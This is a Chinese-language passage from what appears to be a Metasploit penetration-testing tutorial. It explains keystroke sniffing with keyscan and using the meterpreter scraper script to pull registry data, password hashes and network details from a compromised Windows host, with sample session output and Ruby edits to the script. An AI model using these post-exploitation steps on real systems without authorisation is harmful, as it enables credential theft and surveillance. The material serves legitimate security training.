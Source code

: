您可能已经注意到了迁移到不同进程和桌面环境以嗅探按键记录的重要性。通常，人们在直接运行`keyscan`而不查看当前活动桌面时得不到任何结果。这是因为他们渗透的进程可能属于不同的会话或站。因此，在使用按键记录嗅探时，请牢记桌面的概念。

# 使用刮削器 meterpreter 脚本

到目前为止，我们已经了解了几个 meterpreter 命令。在这里，我们将看一下一个重要的 meterpreter 脚本，它可以帮助我们更深入地探索目标。下一章将广泛涵盖 meterpreter 脚本，因此在这里我们将专注于使用脚本。在渗透测试期间，您可能需要大量时间来挖掘目标的信息。因此，对于渗透测试人员来说，拥有有用信息的本地备份可以真正方便，即使目标已经关闭，他们仍然有信息可以使用。它还使与其他测试人员共享信息变得容易。刮削器为我们完成了这项任务。

## 准备工作

使用刮削器 meterpreter 脚本可以挖掘有关受损目标的大量信息，例如注册表信息、密码哈希和网络信息，并将其存储在测试人员的本地机器上。

为了在目标上使用 meterpreter 执行 Ruby 脚本，我们可以使用`run`命令。执行`run scraper -h`命令将列出我们可以与脚本一起传递的各种可用参数。让我们继续分析如何可以在本地下载信息。

## 如何做到这一点...

脚本在执行后会自动完成所有操作。它在`/root/.msf4/logs/scripts/scraper`下创建一个目录，其中保存了所有文件。您可能会在脚本执行过程中注意到错误，这可能是因为某个命令在目标上执行失败（命令行输出已经被缩短以适应）：

```
meterpreter > run scraper
[*] New session on 192.168.56.1:4232...
[*] Gathering basic system information...
[*] Error dumping hashes: Rex::Post::Meterpreter::RequestError priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\Users\DARKLORD\AppData\Local\Temp\UKWKdpIb.reg) 
```

脚本会自动下载并保存信息到目标文件夹。让我们看一下源代码，分析是否可以根据我们的需求进行一些更改。

## 它是如何工作的...

`scraper.rb`的源代码位于`/pentest/exploits/framework3/scripts/meterpreter`下。

Ruby 编程经验可以帮助您编辑脚本以添加您自己的功能。我们可以通过编辑以下行来更改下载位置：

```
logs = ::File.join(Msf::Config.log_directory, 'scripts','scraper', host + "_" + Time.now.strftime("%Y%m%d.%M%S")+sprintf("%.5d",rand(100000)) ) 
```

假设您还想获取可用进程列表的结果，那么您可以简单地在程序的主体中添加以下代码行：

```
::File.open(File.join(logs, "process.txt"), "w") do |fd|
fd.puts(m_exec(client, "tasklist"))
end 
```

通过使用一点点 Ruby 语言和代码重用，您可以轻松修改代码以适应您的需求。

